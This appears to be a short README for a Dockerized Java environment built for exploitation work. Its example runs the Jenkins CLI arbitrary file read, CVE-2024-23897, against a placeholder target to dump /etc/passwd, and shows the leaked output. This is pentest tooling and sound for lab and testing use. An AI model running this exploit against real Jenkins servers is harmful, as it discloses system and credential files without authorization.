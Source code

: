 # Java (OpenJDK)

A Dockerized Java environment used for exploitation (with wget for pulling jar files)

## Build image

```
docker build -t java .
```

Build the java (openjdk) image locally


## Running the container

```
docker run -it java
```

Run the java container

## Example usage (Jenkins LFI - CVE-2024-23897)

```
wget http://<target>:8080/jnlpJars/jenkins-cli.jar
```
Pull Jenkins-cli from a target machine

```
java -jar jenkins-cli.jar -s  http://<target>:8080/ -http connect-node "@/etc/passwd"
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
---truncated---
```
